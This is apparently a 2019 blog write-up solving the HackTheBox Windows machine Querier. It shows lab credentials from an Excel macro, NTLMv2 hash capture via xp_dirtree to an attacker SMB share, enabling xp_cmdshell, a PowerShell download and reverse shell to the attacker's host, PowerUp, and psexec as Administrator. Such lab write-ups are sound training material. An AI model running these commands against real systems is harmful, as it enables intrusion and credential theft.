:slug: querier-writeup/
:date: 2019-06-28
:category: attacks
:subtitle: How to solve HTB Querier
:tags: security, htb, pwn, web, windows
:image: cover.png
:alt: New York City Skyline
:description: Querier is a Windows HackTheBox machine with several insecure configurations. This article explains how to use these configurations to gain system access as a user without privileges, and how to escalate to administrator privileges using penetration testing tools.
:keywords: HTB, Security, Web, Writeup, Bounty, Windows
:author: Andrés Tirado
:writer: atirado
:name: Andrés Tirado
:about1: Mechatronic Engineer
:about2: Enjoy the Little Things
:source: https://unsplash.com/photos/wh-7GeXxItI

= Querier Writeup

In my opinion,
link:https://www.hackthebox.eu/home/machines/profile/175[Querier]
is a great box.
By following the steps below
we will learn a bit about `Windows`
(a widely used operating system) pentesting.
The challenge begins with a public `SMB`;
this is our first challenge level.
Next, we will work with `SQL Server`
and we will need to use a special `SQL` query
to get the user hash.
Finally, we will take advantage of an insecure configuration
in `Group Policy Preferences` in `Windows`
to escalate to administrator privileges.

== Scanning Phase

The first thing to do is check the connection
to the machine with a simple `ping` command.
We need a stable connection
with the box to make sure that
we will not lose all of our progress.

.Ping
[source, bash]
----
$ ping 10.10.10.125
----

.IP Querier

.Doing ping


Next, we can use `nmap` to find open ports in the machine.
A simple port scanning is enough for our purposes.

[source, bash]
----
$ nmap -Pn 10.10.10.125
----

.Port scanning


We see 4 open ports (`135`, `139`, `445` and `1433`)
and among these,
we found two interesting services,
`microsoft-ds (SMB)` in port `445` and
`ms-sql-s` in port `1433`.
When we try to access via SMB,
it shows us a shared folder called `Report` with a `.xlsm` file,
the extension indicating a `Microsoft Excel Document`.

.Public share


Then we open the specified file with `Microsoft Excel` and
a warning message appears telling us that
the file contains a suspicious macro.

.Macro alert


We can explore the macro code in `Microsoft Excel`
using the option `Visual Basic` in the Developer Tab.
The macro has an insecure configuration
of a connection to `SQL Server`,
the credentials are in plain text and now we can use them.
It's a good example of something
that we should never do.

.Macro code


== Getting User

Now we can connect to the other interesting service
that we found: `ms-sql-s`.
We use the module `mssqlclient.py` of `Impacket`
to do queries to the server interactively
using the credentials found in the last step,
for example a query to know the version of `SQL Server`
like the first testing query.

[source, bash]
----
$ mssqlclient.py -windows-auth QUERIER/reporting:PcwTWTHRwryjc\$c6@10.10.10.125
----

.Mssql conection


We will use this service to gain system access,
as a user without privileges.
We mount an `SMB` server in our machine
to capture the authentication of any Windows user,
in this case, the user that executes the service `ms-sql-s`.
We tell it to enter our share
to capture its `NTLMv2` hash with an `xp_dirtree` query.
This stored procedure of `SQL Server`
will access our `SMB` share
to display a list of every folder,
every subfolder, and every file.

[source, bash]
----
> EXEC master.sys.xp_dirtree '\\10.10.15.1\querier';
----

[source, bash]
----
$ smbserver.py -smb2support querier Documents/
----

.User hash


Then we copy the hash to a plain text file and
use `John the Ripper` with the dictionary `rockyou.txt`
to crack the captured hash.
We need to specify the correct hash format because
`John the Ripper` occasionally recognizes your hashes as the wrong type.
This is inevitable because
some hashes look identical,
in this case the correct format for `NTLMv2` is `netntlmv2`.

[source, bash]
----
$ john.exe --wordlist=rockyou.txt --format-netntlmv2 \\
     "\Users\dette\HackTheBox\Querier\hash_mssql-svc.txt"
----

.Runnnig John


Now we can connect to `SQL Server` as user `mssql-svc`.
We try to execute the command `whoami`, however,
it responds telling us that
component `xp_cmdshell` is blocked.
Since we are the service administrator,
we can enable it using a few queries.

[source, bash]
----
$ python mssqlclient.py -windows-auth QUERIER/mssql-svc:corporate568@10.10.10.125
----

.xp_cmdshell disabled


[source, bash]
----
> EXEC sp_configure 'show advanced options', 1;
> EXEC sp_configure reconfigure;
> EXEC sp_configure 'xp_cmdshell', 1;
> EXEC sp_configure reconfigure;
> EXEC master.dbo.xp_cmdshell 'whoami';
----

.xp_cmdshell enabled


Because we can execute commands,
reading the user flag is now possible.

.User flag


== Getting Root

This method of executing commands
may be an inconvenient way to escalate privileges,
so we will upload a shell to the server.
To do this we will use the script `Invoke-PowerShellTcp.ps1`
of `Nishang` framework.
Before uploading the shell
we add our IP address and
some free port to make the connection.

[source, bash]
----
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.1 -Port 30000
----

.Invoke-PowerShellTcp code


Then it is necessary to start an `HTTP` server in our machine.
We can do it with `Python3`.

[source, bash]
----
$ python -m http.server
----

.Http server


To make the server download our file,
we can use `Powershell` as follows.

[source, bash]
----
> EXEC master.dbo.xp_cmdshell 'powershell.exe \\
       Invoke-WebRequest http://10.10.15.1:8000/Invoke-PowerShellTcp.ps1 \\
       -OutFile c:\Users\mssql-svc\Music\Invoke-PowerShellTcp.ps1';
----

Now to get an interactive shell
we set our machine to listen `port 30000` and
execute the script in the `HTB` machine.

[source, bash]
----
$ nc -lvp 30000
----

[source, bash]
----
> EXEC master.dbo.xp_cmdshell 'powershell.exe \\
       c:\Users\mssql-svc\Music\Invoke-PowerShellTcp.ps1';
----

.Interactive shell


At this point we use the module `PowerUp.ps1`
from the `PowerSploit` collection to scan the system
to find a way to escalate privileges.
We can use the same method as in the last step.
We upload the file to the server with `Python3`.

To execute the script we need to import it first,
next we can run all checks
with the command `Invoke-AllChecks`.
It will output any identifiable vulnerabilities
along with specifications for any abuse functions.

[source, bash]
----
> Import-Module C:\Users\mssql-svc\Music\PowerUp.ps1
> Invoke-AllChecks
----

.Running PowerUp.ps1


We can see the Administrator credentials
in plain text in the script output.
The script took advantage
of an insecure configuration
in `Group Policy Preferences` of `Windows`;
it saves credentials with weak encryptions.
It’s time to prove these and
to obtain the root flag.

.Root credentials


Finally, we can get an interactive shell
as Administrator with `psxec.py` from `Impacket`.
With this, we can read the root flag.

[source, bash]
----
$ python psexec.py QUERIER/Administrator:MyUnclesAreMarioAndLuigi!!1!@10.10.10.125
----

.Running psexec.py


Another way to get the root flag
could be to find the file
+
[source, bash]
----
C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
----
using a native tool like `findstr` and
decrypt the password using
the `gpp-decrypt` tool of `Kali Linux`.

.Encrypted password


.Decrypted password


In this challenge,
we saw some insecure configurations
such as saved credentials in plain text in code.
We also learned how to start an `SMB` server
in our machine to capture hashes and
finally, we learned and used some important tools
for pentesting in `Windows` like
`Impacket`, `Nishang`, and `PowerSploit`.
